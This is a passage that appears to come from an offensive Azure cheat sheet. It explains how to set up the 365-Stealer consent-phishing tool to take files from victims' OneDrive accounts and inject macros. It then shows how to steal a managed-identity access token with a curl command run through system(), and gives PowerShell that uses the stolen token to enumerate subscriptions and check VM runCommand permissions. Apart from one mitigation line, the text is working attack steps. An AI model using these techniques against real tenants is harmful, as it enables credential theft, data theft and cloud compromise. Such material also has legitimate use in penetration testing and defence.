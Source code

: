     - **Redirect URL** (Mandatory): Specify the redirect URL that we entered during registering the App like `https://<Domain/IP>/login/authorized` 
    - **Macros Location**: Path of macro file that we want to inject.
    - **Extension in OneDrive**: We can provide file extensions that we want to download from the victims account or provide `*` to download all the files present in the victims OneDrive. The file extensions should be comma separated like txt, pdf, docx etc. 
    - **Delay**: Delay the request by specifying time in seconds while stealing
- Create a Self Signed Certificate to use HTTPS
- Run the application either click on the button or run this command : `python 365-Stealer.py --run-app`
    - `--no-ssl`: disable HTTPS
    - `--port`: change the default listening port
    - `--token`: provide a specific token
    - `--refresh-token XXX --client-id YYY --client-secret ZZZ`: use a refresh token
- Find the Phishing URL: go to `https://<IP/Domain>:<Port>` and click on **Read More** button or in the console.

**Mitigation**: Enable `Do not allow user consent` for applications in the "Consent and permissions menu".


## Token from Managed Identity

> **MSI_ENDPOINT** is an alias for **IDENTITY_ENDPOINT**, and **MSI_SECRET** is an alias for **IDENTITY_HEADER**.

Find IDENTITY_HEADER and IDENTITY_ENDPOINT from the environment : `env`

Most of the time, you want a token for one of these resources: 
* https://storage.azure.com
* https://vault.azure.net
* https://graph.microsoft.com
* https://management.azure.com


### Azure API via Powershell

Get **access_token** from **IDENTITY_HEADER** and **IDENTITY_ENDPOINT**: `system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');`. 

Then query the Azure REST API to get the **subscription ID** and more .

```powershell
$Token = 'eyJ0eX..'
$URI = 'https://management.azure.com/subscriptions?api-version=2020-01-01'
# $URI = 'https://graph.microsoft.com/v1.0/applications'
$RequestParams = @{
 Method = 'GET'
 Uri = $URI
 Headers = @{
 'Authorization' = "Bearer $Token"
 }
}
(Invoke-RestMethod @RequestParams).value 

# List resources and check for runCommand privileges
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resources?api-version=2020-10-01'
$URI = 'https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/<RG-NAME>/providers/Microsoft.Compute/virtualMachines/<RESOURCE/providers/Microsoft.Authorization/permissions?apiversion=2015-07-01'
```
